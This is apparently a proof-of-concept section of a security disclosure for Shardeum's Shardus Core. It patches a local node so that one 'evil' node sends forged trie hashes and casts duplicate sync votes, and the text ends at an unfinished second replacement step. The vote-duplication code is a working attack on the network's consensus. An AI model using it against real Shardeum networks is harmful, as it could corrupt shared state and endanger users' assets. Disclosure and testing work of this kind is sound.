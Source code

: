 
## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo locally.

Apply the following patch to the Shardeum repo:

```
git apply debug-10-nodes.patch
```

Now point Shardeum to use the local copy of Shardu's Core as instructed in the README.md file of Shardeum's codebase.

In your local copy of Shardeum, open the file `src/state-manager/AccountPatcher.ts` and replace the following snippet of code from L3227 to L3228:

```
        const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
        promises.push(promise)
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3227-L3228

With this one:

```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via internal`);
          let evilMessage = messageEntry.message;
          for (let i = 0; i < evilMessage.nodeHashes.length; i++) {
            evilMessage.nodeHashes[i].hash = `helloWorld${i}`;
          }
          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', evilMessage)
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
          promises.push(promise)
        }
```

Then replace the following snippet of code from L3216 to L3223:

```
        const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
          [messageEntry.node],
          InternalRouteEnum.binary_sync_trie_hashes,
          syncTrieHashesRequest,
          serializeSyncTrieHashesReq,
          {}
        )
        promises.push(promise)
```
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3216-L3223
